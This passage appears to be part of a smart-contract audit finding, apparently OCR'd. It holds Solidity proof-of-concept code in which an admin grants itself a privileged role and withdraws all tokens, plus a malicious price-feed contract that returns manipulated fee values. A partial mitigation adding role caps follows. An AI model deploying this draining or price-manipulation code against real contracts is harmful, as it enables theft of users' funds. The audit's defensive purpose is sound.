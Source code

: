 ```solidity
            UpdatePrice[] memory updates = new UpdatePrice[](1);
            updates[0] = UpdatePrice({
                eid: 1,
                price: Price({
                    priceRatio: type(uint128).max,
                    gasPriceInUnit: type(uint64).max,
                    gasPerByte: type(uint32).max
                })
            });
            f.setDstBlockTimeConfigs([1], updates);
        }
        
        // 3. Role manipulation
        // Admin can grant roles without restrictions
        if (w.hasRole(w.DEFAULT_ADMIN_ROLE(), address(this))) {
            // Can grant MESSAGE_LIB_ROLE to malicious contracts
            w.grantRole(w.MESSAGE_LIB_ROLE(), address(this));
            // Can withdraw all tokens
            w.withdrawToken(address(0), address(this), type(uint256).max);
        }
    }
}

contract MaliciousPriceFeed {
    function estimateFeeByEid(
        uint32 _dstEid,
        uint256 _callDataSize,
        uint256 _gas
    ) external pure returns (
        uint256 totalGasFee,
        uint128 priceRatio,
        uint128 priceRatioDenominator,
        uint128 nativePriceUSD
    ) {
        // Return manipulated values to maximize fees
        return (
            type(uint256).max / 2, // Just under overflow
            type(uint128).max,
            1,
            1 // Minimize native price to maximize fee
        );
    }
}
```

### Recommended Mitigation
1. Enhance access control:
```solidity
contract Worker {
    uint256 public constant MAX_ADMINS = 5;
    uint256 public constant ROLE_TIMEOUT = 7 days;
    
    struct RoleAssignment {
        uint256 expiry;
        bool active;
    }
    
    mapping(bytes32 => mapping(address => RoleAssignment)) public roleAssignments;
    mapping(bytes32 => uint256) public roleCount;
    
    function grantRole(bytes32 _role, address _account) public override onlyRole(DEFAULT_ADMIN_ROLE) {
        require(roleCount[_role] < MAX_ADMINS, "Too many admins");
```